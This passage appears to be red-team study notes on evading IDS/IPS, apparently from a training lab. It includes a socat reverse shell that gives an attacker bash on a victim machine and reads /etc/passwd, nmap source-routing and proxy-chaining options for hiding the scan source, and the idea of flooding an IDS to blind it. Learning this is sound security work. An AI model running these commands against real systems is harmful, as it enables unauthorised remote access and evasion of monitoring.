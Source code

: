 1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

![Network Security Solutions-3.png|550](/img/user/cards/red-team/images/Network%20Security%20Solutions-3.png)
## Evasion via Route Manipulation
---

### Relying on Source Routing
---
Normally, when you send packets, the **network decides the route** (each router chooses the next hop)

With **source routing**, you (the sender) tell the network exactly which path the packets should take.

- **Loose routing (`L`)** - You specify a few hops, but routers can choose others in between.

```C
--ip-options "L 10.10.10.50 10.10.50.250"
```

- **Strict routing (`S`)** - You must specify _every hop_.

```C
--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"
```
    
Nmap can do this with `--ip-options`. It’s rarely used today because most networks **block source-routed packets** (security risk).

### Proxy Servers
---
Instead of sending packets directly to the target, you send them through **proxy servers** first to hide your real source.

```C
nmap -sS --proxies HTTP://proxy1:8080,SOCKS4://proxy2:4153 10.201.23.130
```

Its important to **note** that proxy must be running, reachable and supports relaying TCP connections.
## Evasion via Tactical DOS
---
An IDS/IPS requires a high processing power as the number of rules grows and the network traffic volume increases.

- Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
- Create a massive amount of not-malicious traffic that would still make it to the logs. This action would congest the communication channel with the logging server or exceed its disk writing capacity.
